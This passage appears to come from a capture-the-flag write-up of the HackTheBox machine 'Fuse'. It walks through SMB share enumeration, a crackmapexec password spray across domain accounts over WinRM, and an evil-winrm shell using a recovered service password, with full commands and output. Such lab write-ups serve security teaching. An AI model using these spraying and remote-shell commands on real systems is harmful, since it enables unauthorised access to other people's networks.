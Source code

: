 Both svc-print and svc-scan use that password. Unfortunately, it these creds
didn’t provide anything additional over SMB:

    
    
    root@kali# smbmap -H 10.10.10.193 -u svc-print -p '$fab@s3Rv1ce$1'
    [+] IP: 10.10.10.193:445        Name: fuse.fabricorp.local                              
            Disk                                                    Permissions     Comment
            ----                                                    -----------     -------
            ADMIN$                                                  NO ACCESS       Remote Admin
            C$                                                      NO ACCESS       Default share
            HP-MFT01                                                NO ACCESS       HP-MFT01
            IPC$                                                    READ ONLY       Remote IPC
            NETLOGON                                                READ ONLY       Logon server share 
            print$                                                  READ ONLY       Printer Drivers
            SYSVOL                                                  READ ONLY       Logon server share  
    

### Shell

I spent a while trying to enumerate shares with these new users and not
finding much. Eventually I tried WinRM, and it turns out that svc-print can
PowerShell remote:

    
    
    root@kali# crackmapexec winrm 10.10.10.193 -u users -p '$fab@s3Rv1ce$1' --continue-on-success
    WINRM       10.10.10.193    5985   FUSE             [*] Windows 10.0 Build 14393 (name:FUSE) (domain:fabricorp.local)
    WINRM       10.10.10.193    5985   FUSE             [*] http://10.10.10.193:5985/wsman
    WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\pmerton:$fab@s3Rv1ce$1
    WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\tlavel:$fab@s3Rv1ce$1
    WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\sthompson:$fab@s3Rv1ce$1
    WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\bhult:$fab@s3Rv1ce$1
    WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\administrator:$fab@s3Rv1ce$1
    WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\Guest:$fab@s3Rv1ce$1
    WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\krbtgt:$fab@s3Rv1ce$1
    WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\DefaultAccount:$fab@s3Rv1ce$1
    WINRM       10.10.10.193    5985   FUSE             [+] fabricorp.local\svc-print:$fab@s3Rv1ce$1 (Pwn3d!)
    WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\bnielson:$fab@s3Rv1ce$1
    WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\sthompson:$fab@s3Rv1ce$1
    WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\tlavel:$fab@s3Rv1ce$1
    WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\svc-scan:$fab@s3Rv1ce$1
    WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\dandrews:$fab@s3Rv1ce$1
    WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\mberbatov:$fab@s3Rv1ce$1
    WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\astein:$fab@s3Rv1ce$1
    WINRM       10.10.10.193    5985   FUSE             [-] fabricorp.local\dmuir:$fab@s3Rv1ce$1
    

[Evil-WinRM](https://github.com/Hackplayers/evil-winrm) will provide a shell:

    
    
    root@kali# evil-winrm -i 10.10.10.193 -u svc-print -p '$fab@s3Rv1ce$1'
    